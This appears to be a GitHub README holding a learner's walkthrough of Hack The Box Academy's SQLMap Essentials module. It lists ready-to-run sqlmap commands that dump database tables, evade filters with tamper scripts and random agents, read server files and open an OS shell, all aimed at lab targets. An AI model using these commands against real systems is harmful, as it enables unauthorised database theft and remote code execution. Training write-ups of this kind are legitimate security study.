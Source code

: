 This repository contains my walkthrough and notes from the SQLMap Essentials module on Hack The Box Academy. The exercises and final assessment helped sharpen my skills in identifying and exploiting SQL Injection vulnerabilities using SQLMap.

## How to get case file?

Start Burp Suite and configure your browser to use it as a proxy (usually 127.0.0.1:8080).

Navigate to the vulnerable web page in your browser (e.g., the Catalog page or form submission).

Capture the request using the Proxy > HTTP history tab in Burp.

Right-click the request > "Save item" > Save it as Case1.txt, shop.txt, etc.

Format: Plain HTTP request (no headers or extra encoding)

File Extension: .txt (SQLMap accepts raw HTTP requests this way)

## Module Exercises ##

## Case 1: Basic Dump ##
```bash 
sqlmap -r Case1.txt --threads 10 --dump -T flag1 -D testdb --dbms=MySQL --batch
```
## Case 2: Simple Request ##
```bash
sqlmap -r Case2.txt --threads 10 --dump -T flag2 --batch
```
## Case 3: Cookie-Based Injection ##
```bash 
sqlmap -r Case3.txt -p cookie --threads 10 --dump -T flag3 --batch
```
## Case 4: Simple Dump ##
```bash
sqlmap -r Case4.txt --threads 10 --dump -T flag4 --batch
```
## Case 5: Time-Based Blind SQLi ##
```bash
sqlmap -r Case5.txt --batch --dump -T flag5 -D testdb \
--no-cast --dbms=MySQL --technique=T --time-sec=10 --level=5 --risk=3 --fresh-queries
```
## Case 6: Using Prefix Payload ##
```bash
sqlmap -r Case6.txt --batch --dump -T flag6 -D testdb \
--no-cast --level=5 --risk=3 --prefix='`)'
```
## Case 7: Union-Based Injection ##
```bash
sqlmap -r Case7.txt --batch --dump -T flag7 -D testdb \
--no-cast --level=5 --risk=3 --union-cols=5 --dbms=MySQL
```
## Case 8: CSRF Token Handling ##
```bash
sqlmap -r case8.txt --batch -p "id" --csrf-token="t0ken" \
--dbms MySQL -D testdb -T flag8 --dump --flush-session --no-cast
```
## Case 9: Randomized Parameter ##
```bash
sqlmap -r Case9.txt -T flag9 --dump --risk=3 --level=5 --batch --randomize=uid
```
## Case 10: Random Agent ##
```bash
sqlmap -r case10.txt --batch -p "id" --random-agent \
--dbms MySQL -D testdb -T flag10 --dump --flush-session --no-cast
```
## Case 11: Tamper Script ##
```bash
sqlmap -r case11.txt --batch -p "id" --tamper=between \
--dbms MySQL -D testdb -T flag11 --dump --flush-session --no-cast
```
## File Reading & OS Shell ##
```bash
sqlmap -r read_file.txt --is-dba
sqlmap -r read_file.txt --file-read="/var/www/html/flag.txt"
cat ~/.local/share/sqlmap/output/94.237.58.172/files/_var_www_html_flag.txt
```
## OS Shell Access ##
```bash
sqlmap -u "http://94.237.58.172:59643?id=1" --os-shell --technique=E --batch
find / -type f -iname "*flag*" 2>/dev/null
```
## Skills Assessment: Minishop Web App ##

## Overview ##
**Application** : Minishop
**Pages Analyzed**: Blog, Contact Us, Catalog
### Findings
**Blog**: Not vulnerable (form action is '#')
**Contact Us**: Not vulnerable (form action is '#')
**Catalog (/shop)**: Vulnerable — uses JavaScript to post JSON to action.php

## Exploitation
### Intercepted request using Burp Suite
### Saved to shop.txt

## Exploited with SQLMap:
```bash
sqlmap -r shop.txt --batch -p 'id' --random-agent \
--tamper=between --dbms=MySQL -D production -T final_flag --dump
```
## Outcome

Successfully dumped final_flag table from the production database.

## Conclusion

**This module strengthened my understanding of:**

_SQL injection techniques (Boolean-based, Time-based, Union-based)
_
_Tamper scripts, CSRF tokens, and header injection_

_File read and OS shell interaction_

_Real-world application analysis and exploitation_

_I plan to continue my journey through the Hack The Box Pentester Pathway, with a focus on advanced web application testing, mobile app security, and red team tactics._

## 📜 License

This project is licensed under the MIT License.
